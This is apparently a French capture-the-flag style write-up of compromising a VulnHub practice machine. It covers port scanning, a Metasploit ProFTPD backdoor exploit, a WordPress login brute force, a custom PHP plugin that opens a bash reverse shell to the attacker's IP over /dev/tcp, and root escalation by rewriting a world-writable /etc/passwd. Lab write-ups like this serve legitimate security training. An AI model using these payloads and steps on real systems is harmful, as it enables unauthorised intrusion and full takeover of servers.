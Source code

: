 # Rendu sur la machine VulnHUB

# Etape 1: Reconnaissance

## 1.1 Découverte de la machine

```bash
netdiscover -r 192.168.228.0/24

target -> 192.168.228.131
```

## 1.2 Scan des ports ouverts

```bash
$ nmap -sV --script=http-enum 192.168.228.131

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-15 11:48 CET
Nmap scan report for 192.168.228.131
Host is up (0.0020s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.3c
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-enum:
|_  /secret/: Potentially interesting folder
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
On lance un scan nmap avec le script `http-enum` pour voir si on trouve des informations sur les services web.<br>
On retrouve donc une machine sous Ubuntu avec un serveur FTP, SSH et HTTP.

# Etape 2: Attacking

## 2.1 FTP

On retrouve un serveur FTP qui utilise ProFTPD 1.3.3c. 
En cherchant sur metasploit, on trouve un exploit pour cette version de ProFTPD.

<div align="center">
    <img src="./images/proftpd-metasploit.jpg" alt="proftpd-metasploit">
</div>

```bash
msf6 > use exploit/unix/ftp/proftpd_133c_backdoor
msf6 exploit(unix/ftp/proftpd_133c_backdoor) > set RHOST 192.168.228.131
RHOST => 192.168.228.131
msf6 exploit(unix/ftp/proftpd_133c_backdoor) > set payload 4
payload => cmd/unix/reverse
msf6 exploit(unix/ftp/proftpd_133c_backdoor) > run
```

<div align="center">
    <img src="./images/FTP-PWND.jpg" alt="FTP-PWND">
</div>

On a un shell sur la machine en tant que `root`.
## 2.2 Apache

### 2.2.1 Accès à la page web

On a une page par defaut d'Apache, rien de bien interessant.

Avec l'enumeration du serveur HTTP, on trouve un dossier `/secret/` qui semble être un wordpress.

Déjà on voit que le CSS ne marche pas, grâce aux machines précédentes, on sait que c'est probablement une histoire de nom de domaine.

En regardant le code source de la page, on vois que le lien vers le CSS utilise le nom  `vtcsec` donc on ajoute `vtcsec` dans le fichier `/etc/hosts` et on rafraichit la page.

En se baladant sur le site on trouve pas grand chose de bien interessant, on va utiliser `wpscan` pour voir sur quoi on peut tomber.

<div align="center">
    <img src="./images/wpscan.jpg" alt="wpscan">
</div>

On voit des choses mais difficile de savoir ce qui est interessant...<br>
On va voir la page de connexion admin `http://vtcsec/secret/wp-login.php` et on va tenter de bruteforce les identifiants pendant qu'on cherche d'autres informations.

Grâce à metasploit, on a un script pour bruteforce les identifiants wordpress(`scanner/http/wordpress_login_enum`).<br>
J'utilise les wordlists de `unix-passwords` et `unix-users` sur une intuition que ce soit les mêmes mots de passe que pour un possible utilisateur unix.

<div align="center">
    <img src="./images/WP-Bruteforce-unix.jpg" alt="WP-Bruteforce-unix">
</div>
<div align="center">
    <img src="./images/bruteforceYES.jpg" alt="bruteforceYES">
</div>

Évidemment, c'était ``admin:admin`` ... On aurait du commencer par là...

### 2.2.2 Plugin malveillant

Maintenant qu'on a accès à l'interface d'administration, on peut faire un peu se que l'on veut sur le service web. Donc essayons d'uploader un plugin malveillant pour avoir un shell sur la machine.<br>
Après un peu de recherche il existe des exploits pour injecter des plugins dans wordpress en utilisant metasploit (`exploit/unix/webapp/wp_admin_shell_upload`).<br>
Mais j'ai vu que c'etait pas si compliqué de le faire manuellement, donc j'ai fait mon propre plugin reverse shell.

```php
<?php
/**
* Plugin Name: Reverse Shell Plugin
* Plugin URI:
* Description: Reverse Shell Plugin
* Version: 1.0
* Author: Michelle drucker
* Author URI: https://www.youtube.com/watch?v=dQw4w9WgXcQ
*/
exec('/bin/bash -c "bash -i >& /dev/tcp/192.168.228.130/4444 0>&1"');
```

Une simple ligne de commande qui va ouvrir un processus bash qui va se connecter à notre machine sur le port 4444.<br>
On compresse le fichier en `.zip` et on l'upload sur le site avec `http://vtcsec/secret/wp-admin/plugin-install.php?tab=upload`.

Apparemment c'est important de mettre les commentaires au début du fichier sinon la page ne reconnait pas le fichier comme un plugin.

Plus qu'à l'activer et à écouter sur le port 4444.

```bash
nc -lvnp 4444
```
<div align="center">
    <img src="./images/revshell-connected.jpg" alt="revshell-connected">
</div>

Et voilà, on a un reverse shell sur la machine. (dit comme ça, ça parraissait rapide mais je suis resté bloqué un moment sur le plugin qui ne voulait pas s'activer...il fallait juste rafraichir la page...)

### 2.2.3 Escalade de privilèges

On est connecté en tant que `www-data`, c'est super mais c'est pas root.<br>
il existe un script qui permet de trouver des permissions mal configurées sur la machine ([linpeas](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS)).<br>
On va donc l'uploader sur la machine et l'executer (cURL n'est pas installé par contre wget oui).

<div align="center">
    <img src="./images/linpeas.jpg" alt="linpeas">
</div>

Par soucis de verbosité, on va pas afficher tout le résultat mais certains points sont interessants:
- `/etc/shadow` est accessible en lecture pour tout le monde (C'est le fichier qui contient les mots de passe hashés)
- `/etc/passwd` est accessible en lecture/écriture pour tout le monde (On peut donc ajouter un utilisateur et/ou modifier les mots de passe)

<div align="center">
    <img src="./images/shadow.jpg" alt="shadow">
</div>

Je n'avais pas vu au début que le fichier `/etc/passwd` était en écriture pour tout le monde, donc je me suis dit qu'il fallait brute force le mot de passe de l'utilisateur `marlinspike`.<br>
J'ai donc utilisé `john` pour cracker le mot de passe avec le hash trouvé dans `/etc/shadow`.

<div align="center">
    <img src="./images/failed-user-bruteforce.jpg" alt="failed-user-bruteforce">
</div>

Malheureusement, je n'ai pas réussi à cracker le mot de passe de l'utilisateur `marlinspike`.<br>

Mais en relisant le résultat de `linpeas`, je me suis rendu compte que j'avais les droits en écriture sur `/etc/passwd`.<br>
Donc je me suis renseigné un peu sur les possibilités que j'avais avec ce fichier. Au début je voulais juste ajouter un utilisateur pour me connecter en SSH mais je me suis rendu compte que je pouvais aussi modifier le mot de passe de l'utilisateur `root`.<br>
Par default, ils sont stockés dans `/etc/shadow` et donc dans le fichier `/etc/passwd` on a juste un `x`. Mais si on remplace le `x` par le hash du mot de passe que l'on veut, on peut effectivement changer le mot de passe de l'utilisateur `root`.

<div align="center">
    <img src="./images/nouveau-hash.jpg" alt="nouveau-hash">
</div>

Vu que le shell est assez limité, je pouvait pas lancer de `nano` ou `vim` pour modifier le fichier, pour pas me prendre la tête j'ai juste copié le contenu du fichier `/etc/passwd` dans un fichier sur ma machine, j'ai modifié le hash du mot de passe de `root` puis je l'ai renvoyé sur la machine avec un serveur HTTP python.

<div align="center">
    <img src="./images/passwd-droped.jpg" alt="passwd-droped">
</div>

Maintenant que le mot de passe de `root` est changé, on peut faire un `su root` avec le mot de passe que l'on a choisi.

<div align="center">
    <img src="./images/wp-pwnd.jpg" alt="wp-pwnd">
</div>

Et voilà, on a accès à la machine en tant que `root`.

# Tentative ratée

J'ai aussi essayé de bruteforce le mot de passe de l'utilisateur `marlinspike` avec `hydra` pour me connecter en SSH mais c'était un échec.

<div align="center">
    <img src="./images/failed-ssh-bruteforce.jpg" alt="failed-ssh-bruteforce">
</div>
